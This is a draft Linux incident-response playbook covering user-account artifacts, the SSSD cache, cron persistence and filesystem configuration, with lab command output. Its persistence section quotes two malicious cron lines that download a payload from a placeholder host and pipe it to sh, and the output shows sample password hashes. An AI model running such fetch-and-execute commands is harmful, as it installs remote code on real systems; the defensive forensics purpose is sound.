

Introduction
In the current digital environment, robust and targeted incident response strategies are necessary to tackle the range of cyber threats organizations face. Despite Linux systems' inherent security strengths, they remain potential targets for attackers. Therefore, It is important to have a Linux-specific incident response playbook, which is the purpose of the TuxTriage Playbook.
The TuxTriage Playbook is an incident response playbook specifically developed for the Linux Operating Systems. It facilitates the triage and examination of suspicious live hosts, allowing for swift incident identification, triage, and evidence collection.
The playbook addresses several key investigative points that can aid an examiner in understanding the extent of a potential breach:
-
User Accounts: This section aims to identify all user accounts on the system, their respective permissions, and any recent account modifications. These details can reveal unauthorized system access.
-
Lateral Movement: The playbook evaluates if the attacker has managed to gain access to other systems in the network. Identifying the tactics used in this movement can help improve defense mechanisms.
-
Malware Persistence: This segment assesses how malware has managed to persist on the system, including using known persistence techniques such as auto-runs, allowing for a comprehensive malware investigation and removal process.
-
Data Theft: The playbook investigates whether the attacker has attempted to access data within the system. This information is crucial in understanding the scope of the breach and informing recovery efforts.
-
Configuration Management: The final section evaluates the current state of the system's configuration, detecting recent modifications that may indicate system compromise.
By addressing each of these areas, the TuxTriage Playbook provides a rapid response protocol for incidents and informs long-term strategies for system hardening and threat prevention. This playbook is essential in navigating the challenges of Linux system breaches, ensuring a swift and effective incident response.
How to use this book?
This book has been designed to be both a comprehensive guide and a handy reference manual for anyone interested in intrusion analysis. It provides a deep dive into raw files, data structures, and forensics artifacts, serving as a rich resource for both beginners and seasoned professionals in the field. Please take a moment to read through the following guidelines to make the most out of this resource.
Start with Basics: If you are a beginner or need a refresher on the basic concepts, start from the first chapters that detail the raw files and data structures used in intrusion analysis.
Understand the Data Structures: This book discusses data structures and file formats in detail. Ensure you understand these since they form the crux of many analyses that follow. The objective is to understand the file's contents and its limitations comprehensively.
Explore Forensic Artifacts: Details about forensic artifacts that may be relevant to intrusion analysis are provided under each section of the book. These chapters can be instrumental in your practical work, allowing you to identify better, analyze, and interpret forensics artifacts during intrusion analysis.
Refer to the Datasource Catalog: The Datasource Catalog section serves as a quick reference guide for all files of interest mentioned in the book. It briefly describes each file and its significance in intrusion analysis. You can refer to this section when encountering unfamiliar files or need to understand a file's relevance quickly.
Recognize System-Specific Limitations: Please note that some files discussed in this book may not exist on certain systems based on their specific configurations. If you encounter this, don't be alarmed. This book aims to be as comprehensive as possible, but the nature of diverse system configurations means that not all files will be present on all systems.
Minimized Use of System Commands: This book diverges from many other resources on the subject matter by largely refraining from using built-in system commands, save for the inspection of file contents using the cat command. This approach is adopted for several critical reasons:
-
Preservation of Evidence: To maintain the integrity of the investigation, we should avoid tampering with the system's state. Running various commands may inadvertently alter the system's state under scrutiny, potentially impacting the reliability of the evidence.
-
Compatibility with Disk Images: The utilization of disk images is a common practice in digital forensics. Within this context, executing commands is typically unfeasible. By focusing on raw files and data structures, this book ensures its teachings are applicable even when working with disk images.
-
Enabling Evidence Extraction: This book provides the knowledge necessary to extract relevant files from the system and conduct detailed analyses on a separate forensic workstation by focusing on raw files and data structures. This method ensures the preservation of the original evidence and enhances the overall investigative process by providing more flexibility and control over the analysis environment.
This book is designed to be a journey into the heart of intrusion analysis, taking you from the basics to the complexities of forensic artifacts. By studying, practicing, and understanding the principles within, you'll be well-prepared to tackle real-world intrusion analysis tasks and challenges.
Happy hunting!
Recommended Reading
The following resources provide substansial background on the cyber incident response process.
CISA: Cybersecurity Incident & Vulnerability Response Playbooks 1
Operational Procedures for Planning and Conducting Cybersecurity Incident and Vulnerability Response Activities in FCEB Information Systems.
When to use this playbook
Use this playbook for incidents that involve confirmed malicious cyber activity for which a major incident has been declared or not yet been reasonably ruled out.
NIST: Computer Security Incident Handling Guide 2
This document has been created for computer security incident response teams (CSIRTs), system and network administrators, security staff, technical support staff, chief information officers (CIOs), computer security program managers, and others who are responsible for preparing for, or responding to, security incidents
CERT SG: UNIX/LINUX Intrusion Detection 3
A cheat sheet dedicated to handlers investifating on a precise security issue.
Who should use IRM sheets
- Administrators
- Security Operation Center
- CISOs and deputies
- CERTs
Incident Handling Steps
The incident response life cycle as defined by NIST Computer Security Incident Handling Guide1 has the following 5 steps:
- Preparation
- Detection & Analysis
- Containment, Eradication & Recovery
- Post-Incident Activity
This playbook may be used to aid in the first two steps of the life cycle.
Preparation Phase
The preparation phase calls for the establishment and training of an incident response team along with acquiring the necessary tools and resources to perform the response activities. This playbook is designed as a training guide for analysts working with Linux OS.
Detection & Analysis
Signs of an incident fall into one of two categories: precursors and indicators. A precursor is a sign that an incident may occur in the future. An indicator is a sign that an incident may have occurred or may be occurring now 1.
The playbook serves as a handbook and provides the sources for indicators. It details where to look for indicators, what conclusions can be drawn from the indicators as well as the data structure and organization of such artifacts.
TODO
- Add the incident response process picture
- Explain the process in detail
User Accounts
User accounts are a crucial component of any digital forensics investigation. They provide valuable information about who had access to a system, what they did while logged in, and what resources they may have accessed.
User accounts can be local to the host or managed centrally using Active Directory, OpenLDAP, Novell eDirectory, etc.
There are three main types of user accounts on a Linux System:
-
Superuser account: Also known as the root, this account has full administrative privileges on the system.
-
Regular user account: Regular user accounts have limited access to the system. They may only access files and resources they are explicitly granted access. A regular user can be granted additional privileges by adding the user to a group with the desired privileges or by granting the user specific permissions on specific files or directories.
-
System account (Service account): System accounts correspond to a service running on the system rather than to someone using the system. Service accounts are used by system services such as web servers, mail transport agents, databases etc. Note that there is no formal distinction between a regular user account vs. a system/service account at a system level. The key differences are that a regular user account has a login shell and wider privileges.
Domain User
- AD user
- Home directory Example
- No entry in the local files
- WHAT OTHER ARTIFACT IS THERE
- HOW DOES THE LOGON PROMPT KNOW TO ASK AGAIN IN GNOME
there is a cache we can look for
Forensic Evidence
-
Command to list the shadow files
-
ls the home dir with time stamps
- lastlog
-
Figure out earliest access date
-
Latest date? only from log?
-
LOG FILE analysis to look for users that are not accounted for
-
FILEs - what info is stored in file metadata about users
Local User Accounts
These are accounts local to the host.
Local account information are stored in two files.
/etc/passwd
/etc/shadow
Additionally group information is saved at the following location.
/etc/group
/etc/gshadow
/etc/passwd 1
The /etc/passwd file is a text file. Each line represents information about a single user account. This fields are seperated by a colon (:) symbol. There are seven fields saved in each row 2.
[tlasso@rhel-richmondfc ~]$ cat /etc/passwd | grep tlasso
tlasso:x:1000:1001:tlasso:/home/tlasso:/bin/bash
[tlasso@rhel-richmondfc ~]$
Username: The user name of the user.Password: An x character indicates that the password is in the/etc/shadowfile.User ID (UID): A unique id assigned to the userGroup ID (GID): The primary group ID.User ID Info: Additional user informationHome Directory: Home directory of a userCommand/shell: Typically this is a shell. But if an account does not have interactive logon privileges then this can be set to/sbin/nologin
/etc/shadow 3
The /etc/shadow file contains one entry per line for each user account on the system. Each entry consists of several fields separated by colons (:). The fields typically include the username, password hash, and various account-related information such as password expiration, account expiration, and account locking.
The password hash stored in the /etc/shadow file is an encrypted version of the user's password. When a user attempts to log in, the system takes the password entered by the user, applies the same encryption algorithm, and compares the resulting hash with the one stored in the /etc/shadow file. If the hashes match, the user is granted access.
[tlasso@rhel-richmondfc ~]$ sudo cat /etc/shadow | grep tlasso
tlasso:$6$jP1ap6xJUfvAgVjH$JxTdfXUOIqbpa3FpgALilTJvGnUfuUcDn8Qz.cxBf6yrFjo2332IHsCkHtg9QCHM7A4p9EcOZn.tXBWYK3RVO0::0:99999:7:::
Username: The user name of the user.Password: Encrypted password in hash format.Last password change date: Data type is Long. 0 indicates that the user must change the password on next logon. Empty value inidcates that feature is disabled. A long value greater than 0 indicates the date of password change expressed in the form of days since Unix epoch.
/etc/group 4
The /etc/group file contains a list of groups, one entry per line. Each line is colon delimited and contains four fields.
[tlasso@rhel-richmondfc ~]$ sudo cat /etc/group | grep tlasso
wheel:x:10:tlasso
coaching-staff:x:1000:tlasso
Group name: Name of the groupGroup Password: When this field is set tox, then a password is required to join the group.Group Id (GID): A numeric group idMember List: The list of users that belong to the group. List is comma seperated.
/etc/gshadow 5
The /etc/gshadow file contains the encrypted group password, group membership and administrator information. This file also contains information per group per line. It is colon delimeted and lists the members of the group in a comma seperated list
[tlasso@rhel-richmondfc ~]$ sudo cat /etc/gshadow | grep tlasso
wheel:::tlasso
coaching-staff:!::tlasso
Group name: Name of the groupEncrypted password: Group passwordGroup administrators: Comma delimited list of users. Add or remove from this list usinggpasswdcommand.Group members: Non-admin group members.
User account creation
Please refer to RHEL6 documentation for details and command references for user creation.
Active Directory Accounts
Active directory accounts are managed by the AD server. No local entries are manintained by the host regarding them.
System Security Services Daemon (SSSD) is generally used by RHEL for AD based authentication.
This is not limited to AD, the following combinations are supported. 1
| Identity Provider | Authentication Provider |
|---|---|
| Identity Management | Identity Management |
| Active Directory | Active Directory |
| LDAP | LDAP |
| LDAP | Kerberos |
| Proxy | Proxy |
| Proxy | LDAP |
| Proxy | Kerberos |
SSSD does not create user accounts on the local system. However, SSSD can be configured to create home directories for IdM users. Once created, an IdM user home directory and its contents on the client are not deleted when the user logs out 1.

SSSD maintains a local cache about the users that attempted to logon to the local system.
UID/GID for AD Users
Windows uses security ids (SID) and is incompatible with Linux UID/SID. SSSD autogenerates the UID and GID from the SIDs when the user logs on to a linux host for the first time. This information is cached as mentioned above. Note that the UID generated from a SID is always the same.
ID mapping can be disabled. This should be used if AD defined POSIX attributes are to be used instead.
Forensic Artifacts
There exists a number of utility programs that can generate the information listed below such as wbinfo and getent. Since we are interested in forensic evidence artifacts that can be collected and reviewed offline the focus here is to examine the file contents directly. This is also required when we are presented with a disk image of a system and not the live running system.
Unexpected Local user accounts
Look for unusual user accounts in the /etc/passwd
#!/bin/bash
NI_SHELLS="/sbin/nologin|/sbin/false|/sbin/true|/bin/sync|/sbin/shutdown|/sbin/halt"
echo "Non Interactive / Service Accounts"
echo "**********************************"
egrep $NI_SHELLS /etc/passwd | cut -d: -f1
echo ""
echo "Interactive Users"
echo "*****************"
egrep -v $NI_SHELLS /etc/passwd | cut -d: -f1
echo ""
Sample output
[tlasso@rhel-richmondfc scripts]$ ./list_users.sh
Non Interactive / Service Accounts
**********************************
bin
daemon
adm
lp
sync
shutdown
halt
mail
operator
games
ftp
nobody
systemd-coredump
dbus
polkitd
avahi
tss
colord
clevis
rtkit
sssd
geoclue
libstoragemgmt
systemd-oom
setroubleshoot
pipewire
flatpak
gdm
cockpit-ws
cockpit-wsinstance
gnome-initial-setup
sshd
chrony
dnsmasq
tcpdump
Interactive Users
*****************
root
tlasso
The /etc/group, /etc/shadow, /etc/gshadow must be cross referenced to check for any user ids or groups that are not recognized.
This can be sign of an orphaned user account that was not removed correctly.
Account Earliest Activity & Deleted Accounts
The user home directory is created for all interactive users (unless explicitly configured).
Examine the /home/ folder for a list of home directories.
[tlasso@rhel-richmondfc ~]$ sudo ls -al /home
total 12
drwxr-xr-x. 5 root root 84 Jun 14 03:21 .
dr-xr-xr-x. 18 root root 235 Jun 14 02:26 ..
drwx------. 14 357201109 357200513 4096 Jun 14 03:23 nate@corp.tuxtriage.net
drwx------. 15 tlasso tlasso 4096 Jun 18 19:25 tlasso
drwx------. 14 357201108 357200513 4096 Jun 14 03:14 tlasso@corp.tuxtriage.net
Note that in the above example there are two tlasso users. The tlasso user is a local system user while the tlasso@corp.tuxtriage.net is an AD user.
Since one of the first things the system does when a user is created is the creation of the home directory, this information can be approximated to the earliest presense of this user on the host.
If the investigation timelines are outside the earliest activity date, the user account may not be part of the incident.
The Birth time of the folder can be used for this purpose.
[tlasso@rhel-richmondfc ~]$ stat /home/*
File: /home/nate@corp.tuxtriage.net
Size: 4096 Blocks: 8 IO Block: 4096 directory
Device: fd00h/64768d Inode: 102693422 Links: 14
Access: (0700/drwx------) Uid: (357201109/ UNKNOWN) Gid: (357200513/ UNKNOWN)
Context: unconfined_u:object_r:user_home_dir_t:s0
Access: 2023-06-14 03:21:01.790738178 -0400
Modify: 2023-06-14 03:23:10.091326083 -0400
Change: 2023-06-14 03:23:10.091326083 -0400
Birth: 2023-06-14 03:21:01.790738178 -0400
File: /home/tlasso
Size: 4096 Blocks: 8 IO Block: 4096 directory
Device: fd00h/64768d Inode: 69333680 Links: 15
Access: (0700/drwx------) Uid: ( 1000/ tlasso) Gid: ( 1001/ tlasso)
Context: unconfined_u:object_r:user_home_dir_t:s0
Access: 2023-06-18 19:32:30.473261644 -0400
Modify: 2023-06-18 19:25:15.008942407 -0400
Change: 2023-06-18 19:25:15.008942407 -0400
Birth: 2023-06-14 02:30:33.307059622 -0400
File: /home/tlasso@corp.tuxtriage.net
Size: 4096 Blocks: 8 IO Block: 4096 directory
Device: fd00h/64768d Inode: 101569584 Links: 14
Access: (0700/drwx------) Uid: (357201108/ UNKNOWN) Gid: (357200513/ UNKNOWN)
Context: unconfined_u:object_r:user_home_dir_t:s0
Access: 2023-06-14 03:11:59.697315839 -0400
Modify: 2023-06-14 03:14:12.457619105 -0400
Change: 2023-06-14 03:14:12.457619105 -0400
Birth: 2023-06-14 03:11:59.697315839 -0400
SSSD Cache
Any user that logs on via AD does not leave much trace on the system maintained files such as /etc/passwd etc. However, there are cache files that are updated as part of the logon process that can be analyzed to detect malicious user activity.
SSSD cache is located at /var/lib/sss/db.
[tlasso@rhel-richmondfc scripts]$ sudo ls /var/lib/sss/db
cache_corp.tuxtriage.net.ldb ccache_CORP.TUXTRIAGE.NET config.ldb sssd.ldb timestamps_corp.tuxtriage.net.ldb
Of interest to us is the cache_corp.tuxtriage.net.ldb ldb database. See details about lbd format here 1.
ldbsearch command can be used to search this database for records of interest.
tlasso@rhel-richmondfc scripts]$ sudo ldbsearch -H /var/lib/sss/db/cache_corp.tuxtriage.net.ldb
asq: Unable to register control with rootdse!
# record 1
dn: gpoGUID={31B2F340-016D-11D2-945F-00C04FB984F9},cn=gpos,cn=ad,cn=custom,cn=corp.tuxtriage.net,cn=sysdb
gpoGUID: {31B2F340-016D-11D2-945F-00C04FB984F9}
gpoVersion: 3
objectClass: gpo
gpoPolicyFileTimeout: 1686727266
distinguishedName: gpoGUID={31B2F340-016D-11D2-945F-00C04FB984F9},cn=gpos,cn=a
d,cn=custom,cn=corp.tuxtriage.net,cn=sysdb
...
# record 3
dn: name=tlasso@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.net,cn=sysdb
createTimestamp: 1686726711
fullName: Ted Lasso
gecos: Ted Lasso
gidNumber: 357200513
name: tlasso@corp.tuxtriage.net
objectCategory: user
uidNumber: 357201108
objectSIDString: S-1-5-21-2369507818-3716282536-1365522936-1108
uniqueID: 5e499899-1305-460b-82d9-87a949f32d18
originalDN: CN=Ted Lasso,CN=Users,DC=corp,DC=tuxtriage,DC=net
originalModifyTimestamp: 20230614062722.0Z
entryUSN: 41335
userPrincipalName: tlasso@CORP.TUXTRIAGE.NET
adAccountExpires: 9223372036854775807
adUserAccountControl: 512
nameAlias: tlasso@corp.tuxtriage.net
isPosix: TRUE
lastUpdate: 1686726711
dataExpireTimestamp: 1686732111
initgrExpireTimestamp: 0
ccacheFile: KCM:
cachedPasswordType: 1
failedLoginAttempts: 0
memberof: name=Domain Users@corp.tuxtriage.net,cn=groups,cn=corp.tuxtriage.net
,cn=sysdb
pacBlob:: BwAAAAAAAAABAAAA2AEAAHgAAAAAAAAABgAAABAAAABQAgAAAAAAAAcAAAAQAAAAYAIA
AAAAAAAKAAAAFgAAAHACAAAAAAAADAAAAKgAAACIAgAAAAAAABAAAAAQAAAAMAMAAAAAAAATAAAAE
AAAAEADAAAAAAAAARAIAMzMzMzIAQAAAAAAAAAAAgCpHPiCj57ZAf////////9//////////38lSO
9GiZ7ZASUIWXFSn9kBJchIPIq/2QEMAAwABAACABIAEgAIAAIAAAAAAAwAAgAAAAAAEAACAAAAAAA
UAAIAAAAAABgAAgABAAAAVAQAAAECAAABAAAAHAACACAAAAAAAAAAAAAAAAAAAAAAAAAAHgAgACAA
AgAIAAoAJAACACgAAgAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAA
CwAAgAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAB0AGwAYQBzAHMAbwAJAAAAAAAAAAkAAABUAGUAZA
AgAEwAYQBzAHMAbwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAEAAAABAgAABwAAABAAAAAAAAAADwAAAFcASQBOAC0AVABVAEUAMQBWADIATQBKAEYANQBS
AAAABQAAAAAAAAAEAAAAQwBPAFIAUAAEAAAAAQQAAAAAAAUVAAAA6tE7jaj4gd34OWRRAQAAADAAA
gAHAAAAAQAAAAEBAAAAAAASAQAAABAAAABi2JyYFqoO2sq6CcwQAAAACawZ0ByD2C8dtvh8gE5Eq5
Ce2QEMAHQAbABhAHMAcwBvAAAAMgAYACQAUAACAAAADAB4ABwAiAAAAAAAdABsAGEAcwBzAG8AQAB
jAG8AcgBwAC4AdAB1AHgAdAByAGkAYQBnAGUALgBuAGUAdAAAAAAAAABDAE8AUgBQAC4AVABVAFgA
VABSAEkAQQBHAEUALgBOAEUAVAAAAAAAdABsAGEAcwBzAG8AAAAAAAEFAAAAAAAFFQAAAOrRO42o+
IHd+DlkUVQEAAAAAAAAEAAAAAElgqwi0pz73PmFIhAAAADlOc348iFviKxpfwI=
pacBlobExpireTimestamp: 1686727516
cachedPassword: $6$TuYfJdJ.n2nhNpsA$e8b8IGjnqoNmQCrWlit/Ucn7M2Iie2jq3DwOHEXTIz
FzY17zamTuy3loYoH/w5DVYqS7t8lM8v6Be2ijrMmLa0
lastCachedPasswordChange: 1686727216
lastOnlineAuth: 1686727216
lastOnlineAuthWithCurrentToken: 1686727216
lastLogin: 1686727216
distinguishedName: name=tlasso@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.n
et,cn=sysdb
...
# record 8
dn: name=nate@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.net,cn=sysdb
createTimestamp: 1686727258
fullName: Nathan Shelley
gecos: Nathan Shelley
gidNumber: 357200513
name: nate@corp.tuxtriage.net
objectCategory: user
uidNumber: 357201109
objectSIDString: S-1-5-21-2369507818-3716282536-1365522936-1109
uniqueID: a4d7ff67-c14f-4568-b803-b1344d456af8
originalDN: CN=Nathan Shelley,CN=Users,DC=corp,DC=tuxtriage,DC=net
originalModifyTimestamp: 20230614062944.0Z
entryUSN: 41342
userPrincipalName: nate@CORP.TUXTRIAGE.NET
adAccountExpires: 9223372036854775807
adUserAccountControl: 512
nameAlias: nate@corp.tuxtriage.net
isPosix: TRUE
lastUpdate: 1686727258
dataExpireTimestamp: 1686732658
initgrExpireTimestamp: 0
memberof: name=Domain Users@corp.tuxtriage.net,cn=groups,cn=corp.tuxtriage.net
,cn=sysdb
pacBlob:: BwAAAAAAAAABAAAA4AEAAHgAAAAAAAAABgAAABAAAABYAgAAAAAAAAcAAAAQAAAAaAIA
AAAAAAAKAAAAEgAAAHgCAAAAAAAADAAAAJgAAACQAgAAAAAAABAAAAAQAAAAKAMAAAAAAAATAAAAE
AAAADgDAAAAAAAAARAIAMzMzMzQAQAAAAAAAAAAAgAAAAAAAAAAAP////////9//////////38tnc
mbiZ7ZAS1dM8ZSn9kBLR0jkYq/2QEIAAgABAACABwAHAAIAAIAAAAAAAwAAgAAAAAAEAACAAAAAAA
UAAIAAAAAABgAAgAAAAAAVQQAAAECAAABAAAAHAACACAAAAAAAAAAAAAAAAAAAAAAAAAAHgAgACAA
AgAIAAoAJAACACgAAgAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAA
CwAAgAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAABuAGEAdABlAA4AAAAAAAAADgAAAE4AYQB0AGgAYQ
BuACAAUwBoAGUAbABsAGUAeQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAABAAAAAQIAAAcAAAAQAAAAAAAAAA8AAABXAEkATgAtAFQAVQBFADEAVgAyAE0ASgBG
ADUAUgAAAAUAAAAAAAAABAAAAEMATwBSAFAABAAAAAEEAAAAAAAFFQAAAOrRO42o+IHd+DlkUQEAA
AAwAAIABwAAAAEAAAABAQAAAAAAEgEAAAAAAAAAEAAAANNBR2M9XYa9xX8pNxAAAACF+5OW95HsbT
4mEPAAwxbGkJ7ZAQgAbgBhAHQAZQAAAAAAAAAuABgAJABIAAIAAAAIAHAAHAB4AAAAAABuAGEAdAB
lAEAAYwBvAHIAcAAuAHQAdQB4AHQAcgBpAGEAZwBlAC4AbgBlAHQAAABDAE8AUgBQAC4AVABVAFgA
VABSAEkAQQBHAEUALgBOAEUAVAAAAAAAbgBhAHQAZQABBQAAAAAABRUAAADq0TuNqPiB3fg5ZFFVB
AAAAAAAABAAAAAiqzSyLHV5O4/3XFsQAAAAMpv8w439cfo71DnY
pacBlobExpireTimestamp: 1686727561
ccacheFile: KCM:
cachedPassword: $6$.9jD7fiamZSK.KjF$IPjQgS76hMIMOjZ2K6/j3HFC7hies1Ezyiuur85cMU
ZjKSntkCgNcxydyL86uqhpRJk9k7fTfMnkkqcs9xEKb/
cachedPasswordType: 1
lastCachedPasswordChange: 1686727261
failedLoginAttempts: 0
lastOnlineAuth: 1686727261
lastOnlineAuthWithCurrentToken: 1686727261
lastLogin: 1686727261
distinguishedName: name=nate@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.net
,cn=sysdb
...
# returned 14 records
# 14 entries
# 0 referrals
From the above results, we can locate domain users that have logged on by searching for entries with pacBlob value set. Once the records have been located, various attributes about the user activity can be determined.
User Name: This can be located at name as well as nameAlias
objectSIDString: The windows SID for this user. This is useful to locate activity of this user across other windows systems.
createTimestamp: The create time for this user
lastLogin: Last logon timestamp for the user.
Lateral movement
SSH
Screen share tools
Persistence
Malware persistence is a technique used by malware to ensure that it remains on a system even after it has been rebooted or the user has logged off. This allows the malware to continue to run and execute its malicious code. Malware persistence is a critical part of many malware attacks. Without persistence, the malware would be easily removed by the user or by security software.
Malware persistence on Linux systems is achieved through a variety of methods, including:
-
Cron Jobs: Malware often manipulates cron, the Linux task scheduler, to execute malicious tasks periodically, thus maintaining persistence.
-
Systemd Services: Linux's system and service manager, systemd, can also be abused by malware to initiate malicious processes at system startup, ensuring malware persistence.
-
Script Modification: Malware can insert malicious code into commonly executed scripts, such as .bashrc or .bash_profile. Each time the script runs, so does the malware.
-
Kernel Module Manipulation: Malware with root access can insert malicious kernel modules, enabling it to operate at a low level, beyond the reach of many security measures.
-
Process Injection: Malware injects its code into a running process, allowing them to gain unauthorized access, manipulate process's behavior, or hide their presense. In addition to this, malware can gain persistence by running everytime the legitimate process runs.
Cron Jobs
Cron is a time-based job scheduler in *nix operating systems. It allows users to schedule commands or scripts to run at specific times or intervals. Cron jobs are often used to automate tasks, such as backups, file maintenance, and software updates. Unfortunately, it can also be leveraged by malicious actors for malware persistence.
There are two executables of note.
crond - this is the deamon program that run in the background and is responsible for executing the cron jobs. crond reads the crontab (cron table) file. The execution schedule is defined in a simple text format and contains the following.
- The time or interval at which the job should run
- The command or script that should be run
- The user that should run the job
These files can be system-wide or user specific.
Crontab File format
A cron job is defined by a single line in a crontab file, structured as follows:
* * * * * command-to-be-executed
- - - - -
| | | | |
| | | | ----- Day of the week (0 - 7) (Sunday = 0 or 7)
| | | ------- Month (1 - 12)
| | --------- Day of the month (1 - 31)
| ----------- Hour (0 - 23)
------------- Minute (0 - 59)
Each field can contain a single number, a comma-separated list of numbers, a range of numbers, or an asterisk (representing all possible numbers).
The second executable is crontab which is used to manage the crontab files. crontab -e can be used to edit the crontab file.
Managing crontab entries:
crontab -llists the current user's crontab entries.crontab -eopens the user's crontab file for editing.crontab -rremoves the user's crontab file.
Crontab file locations
The crontab files for individual users are stored in the /var/spool/cron directory. Each user's crontab file has the same name as the username.
For example, if the username is cbeard the crontab file for that user would be located at /var/spool/cron/cbeard.
Additionally, system-wide cron jobs are stored in the /etc/crontab file. The /etc/cron.d/ directory is also used to store system-wide cron files, where each file represents a separate cron job.
Scheduling with anacron
anacron is similar to cron in that it is also used for running scheduled tasks.
The primary difference between anacron and cron is how they handle missed or skipped jobs. In cron, if a system is powered off or inactive at the scheduled time of a task, the task will not be executed. anacron is designed to address this limitation by allowing the execution of missed tasks when the system becomes active again.
System-wide tasks are defined in the main configuration file (/etc/anacrontab), while user-specific tasks are defined in separate per-user configuration files located in /var/spool/anacron/
Task scheduling using the 'at' command
The at command in can be used to schedule one-time tasks or commands to run at a specific time in the future. It is particularly useful for scheduling jobs that need to run only once, without any recurring pattern.
Systemd Services
Scripts
Forensic Artifacts
https://sandflysecurity.com/blog/linux-malware-persistence-with-cron/
*/11 * * * * wget -O - -q http://<malicious_url>/pics/logo.jpg|sh
*/5 * * * * curl http://<malicious_url>/malicious.png -k|dd skip=2446 bs=1|sh
Listening Ports
ss -l
TODO: Add details about the ss command.
netstat -an
Only open ports
netstat -tuln
ss -tuln
DNS Cache
DNS records can provide crucial insights into network communications, identify malicious activities and uncover connections between compromised systems and C2 servers.
Cache records can be found in the
Configuration files
DNS-related configuration files may contain valuable information.
/etc/resolv.conf: Specifies the DNS servers used by the system.
/etc/hosts: Contains local hostname-to-IP mappings.
DNS caching in RHEL
RHEL does not cache DNS queries by default1. RHEL also does not recommend using any resolvers2. This implies that DNS caching artifacts may not be available for analysis.
DNS resolver
cat /etc/resolv.conf
Not much info on linux
Log Analysis
https://www.tecmint.com/query-audit-logs-using-ausearch-tool-on-centos-rhel/
System Configuration
File System
Using lsblk
[tlasso@rhel-richmondfc scripts]$ lsblk -f
NAME FSTYPE FSVER LABEL UUID FSAVAIL FSUSE% MOUNTPOINTS
sda
├─sda1 vfat FAT32 D7C9-A9C8 591.8M 1% /boot/efi
├─sda2 xfs f96af77c-de86-4f65-b914-33373c4313cf 730.5M 28% /boot
└─sda3 LVM2_member LVM2 001 wZx9a7-JGa6-Za1A-3xtF-UXNZ-kPYx-w2gGVZ
├─rhel-root xfs 51074d0b-8172-4bd0-aca8-1558aa348c34 29.3G 15% /
└─rhel-swap swap 1 7f8666f3-f284-4ee6-9bb2-91b3d8686a02 [SWAP]
sr0
We can determine the file system in use as xfs for rhel-root (/) mount.
From fstab
fstab file contains the file system information.
cat /etc/fstab
[tlasso@rhel-richmondfc scripts]$ cat /etc/fstab
#
# /etc/fstab
# Created by anaconda on Wed Jun 14 06:26:07 2023
#
# Accessible filesystems, by reference, are maintained under '/dev/disk/'.
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info.
#
# After editing this file, run 'systemctl daemon-reload' to update systemd
# units generated from this file.
#
/dev/mapper/rhel-root / xfs defaults 0 0
UUID=f96af77c-de86-4f65-b914-33373c4313cf /boot xfs defaults 0 0
UUID=D7C9-A9C8 /boot/efi vfat umask=0077,shortname=winnt 0 2
/dev/mapper/rhel-swap none swap defaults 0 0